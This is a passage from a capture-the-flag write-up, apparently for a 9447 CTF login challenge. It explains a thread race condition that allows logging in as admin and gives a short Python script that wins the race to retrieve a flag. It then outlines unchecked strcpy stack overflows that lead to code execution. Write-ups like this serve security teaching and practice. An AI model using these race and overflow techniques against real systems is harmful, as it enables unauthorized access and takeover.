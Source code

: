 There's a race condition between the main thread and thread 2 which can be triggered as follows:

1. Login as guest:guest. The main thread will wake up the second thread which will set the guest_login flag but still do the crypt stuff. It will then wait for the signal from thread 1.
2. Now login as admin:whatever. With some luck by the time the verifier thread wakes up and does the strcpy we've changed the string in tmp_username_buf to "admin".

If everything worked out we will now be logged in as admin and can grab flag01 through the second command. :)

Here's the code to do that (it's using the template from [here](https://github.com/kitctf/ctfcode/tree/master/ExploitTemplates)):

{% highlight python %}
def get_flag01():
    while True:
        with connect(TARGET) as c:
            c.send(b'1\n')
            c.send(b'guest\n')
            c.send(b'guest\n')
            c.send(b'1\n')
            c.send(b'admin\n')
            c.send(b'asdf\n')
            time.sleep(1)
            c.send(b'2\n')
            c.send(b'4\n')
            resp = d(c.recv_until_found([b'Congratulations', b'Access']))
            if '9447' in resp:
                print(re.search('(9447{\w+})', resp).group(1))
                return
            else:
                sys.stdout.write('.')
                sys.stdout.flush()
{% endhighlight %}

Two flags left to go.

## Getting Code Execution

Reading through the above analysis you'll notice there are two strcpy operations which copy data into a buffer on the stack (one at the end of a successful login in the authentication thread and one in the main thread when fetching the message).\\
Both of them are performed without checking the length of the src buffer first, presumably because the data there (the username) should already have been checked to be smaller than 0x20. This assumption is invalid though as we can put a much longer string there once we win the race. (The fgets from stdin allows us to put up to 5000 bytes into the tmp_username_buf while the stack buffer is only 500 bytes large, see the memset(0) block at 0x08048db1)

The overflow in the main thread looks particularly interesting as we can make the main function return and thus gain code execution if we overflow into the return address. (The main function of the second thread never returns)\\
Additionally, flag02 is stored on the stack, so if we overflow just up to the start of it we will be able to leak it through the "See message" functionality (command 3). I went straight for code execution here though, so leaking flag02 this way is left as an exercise for the reader ;)
